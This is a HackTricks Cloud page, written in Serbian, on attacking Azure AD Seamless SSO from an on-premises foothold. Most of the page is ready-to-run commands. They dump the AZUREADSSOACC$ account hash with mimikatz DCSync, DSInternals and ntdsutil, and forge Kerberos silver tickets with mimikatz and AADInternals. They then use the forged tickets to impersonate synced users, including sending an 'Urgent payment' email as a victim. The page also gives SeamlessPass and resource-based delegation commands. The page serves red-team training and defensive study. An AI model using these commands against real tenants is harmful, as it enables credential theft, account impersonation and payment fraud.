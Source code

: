 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatski **prijavljuje korisnike kada su na svojim korporativnim uređajima** povezanih na vašu korporativnu mrežu. Kada je omogućeno, **korisnici ne moraju da kucaju svoje lozinke da bi se prijavili na Azure AD**, i obično, čak ni da kucaju svoja korisnička imena. Ova funkcija omogućava vašim korisnicima lak pristup vašim aplikacijama zasnovanim na oblaku bez potrebe za dodatnim komponentama na lokaciji.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

U suštini, Azure AD Seamless SSO **prijavljuje korisnike** kada su **na PC-u pridruženom lokalnoj domeni**.

Podržava ga i [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) i [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO koristi **Kerberos** za autentifikaciju. Kada je konfigurisan, Azure AD Connect kreira **račun računara nazvan AZUREADSSOACC`$`** u lokalnom AD-u. Lozinka računa `AZUREADSSOACC$` je **poslata u čistom tekstu Azure AD-u** tokom konfiguracije.

**Kerberos karte** su **enkriptovane** koristeći **NTHash (MD4)** lozinke, a Azure AD koristi poslatu lozinku za dekripciju karata.

**Azure AD** izlaže **krajnju tačku** (https://autologon.microsoftazuread-sso.com) koja prihvata Kerberos **karte**. Pregledač mašine pridružene domeni prosleđuje karte ovoj krajnjoj tački za SSO.

### On-prem -> cloud

**Lozinka** korisnika **`AZUREADSSOACC$` nikada se ne menja**. Stoga, administrator domena može kompromitovati **hash ovog računa**, a zatim ga koristiti za **kreiranje srebrnih karata** za povezivanje na Azure sa **bilo kojim lokalnim korisnikom koji je sinhronizovan**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Sa hešom sada možete **generisati srebrne karte**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Da biste iskoristili srebrnu kartu, sledeći koraci treba da se izvrše:

1. **Pokrenite pregledač:** Treba pokrenuti Mozilla Firefox.
2. **Konfigurišite pregledač:**
* Idite na **`about:config`**.
* Postavite preferencu za [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na navedene [vrednosti](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Pristupite web aplikaciji:**
* Posetite web aplikaciju koja je integrisana sa AAD domenom organizacije. Uobičajen primer je [Office 365](https://portal.office.com/).
4. **Proces autentifikacije:**
* Na ekranu za prijavu, treba uneti korisničko ime, ostavljajući polje za lozinku prazno.
* Da biste nastavili, pritisnite TAB ili ENTER.

{% hint style="success" %}
Ovo ne zaobilazi MFA ako je omogućeno
{% endhint %}

#### Opcija 2 bez dcsync - SeamlessPass

Takođe je moguće izvršiti ovaj napad **bez dcsync napada** da biste bili manje uočljivi, kao što je objašnjeno u ovom blog postu [ovde](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Za to vam je potrebna samo jedna od sledećih stavki:

* **TGT kompromitovanog korisnika:** Čak i ako ga nemate, ali je korisnik kompromitovan, možete dobiti jedan koristeći trik lažne TGT delegacije implementiran u mnogim alatima kao što su [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) i [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Zlatna karta**: Ako imate KRBTGT ključ, možete kreirati TGT koji vam je potreban za napadnutog korisnika.
* **NTLM hash ili AES ključ kompromitovanog korisnika:** SeamlessPass će komunicirati sa kontrolerom domena sa ovom informacijom da generiše TGT.
* **NTLM hash ili AES ključ AZUREADSSOACC$ naloga:** Sa ovom informacijom i SID-om korisnika koji napadate, moguće je kreirati servisnu kartu i autentifikovati se sa cloud-om (kao što je izvedeno u prethodnoj metodi).

Na kraju, sa TGT-om je moguće koristiti alat [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) sa:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Dalje informacije o podešavanju Firefoxa za rad sa seamless SSO mogu se [**pronaći u ovom blog postu**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Kreiranje Kerberos karata za korisnike koji koriste samo cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Ako administratori Active Directory imaju pristup Azure AD Connect, mogu **postaviti SID za bilo kog cloud-korisnika**. Na ovaj način Kerberos **karte** mogu biti **kreirane i za korisnike koji koriste samo cloud**. Jedini zahtev je da SID bude ispravan [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Promena SID-a korisnika koji koriste samo cloud je sada **blokirana od strane Microsoft-a**.\
Za informacije proverite [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### On-prem -> Cloud putem Ograničene Delegacije na Bazi Resursa <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Svako ko može upravljati računima računara (`AZUREADSSOACC$`) u kontejneru ili OU u kojem se ovaj račun nalazi, može **konfigurisati ograničenu delegaciju na bazi resursa preko računa i pristupiti mu**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Ja sam u vašem oblaku, čitam e-poštu svih - hakovanje Azure AD putem Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
